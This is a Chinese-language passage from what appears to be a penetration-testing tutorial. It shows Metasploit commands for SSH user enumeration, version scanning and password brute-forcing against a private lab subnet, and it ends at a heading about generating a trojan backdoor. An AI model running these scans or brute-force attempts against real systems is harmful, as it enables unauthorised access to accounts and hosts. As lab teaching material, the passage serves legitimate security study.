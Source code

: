 搜索模块

```sh
search ssh


auxiliary/scanner/ssh/ssh_login   #暴力破解
auxiliary/scanner/ssh/ssh_version #版本探测
auxiliary/scanner/ssh/ssh_enumusers  #用户枚举

#使用
use auxiliary/scanner/ssh/ssh_enumusers
#查看设置参数
show options
set rhost 192.168.83.0/24
set threads 5
set USER_FILE /home/liujiang/user.txt
#端口号默认22  如要更改在设置，设置完后
show options
run
#他会从0开始每个ip开始枚举用户名，时间关系，我们直接让他扫描131
set rhost 192.168.83.131
run

#测试版本，控制台直接输入
use auxiliary/scanner/ssh/ssh_version 
show options
set rhost 192.168.83.131
run

#暴力破解
use auxiliary/scanner/ssh/ssh_login 
show options
set rhost 192.168.83.131
set USER_FILE /home/liujiang/user.txt
set pass_file /home/liujiang/pass.txt
run
```

![image-20201118141508260](75、暴力破解/image-20201118141508260.png)

#### 1、生成木马后门

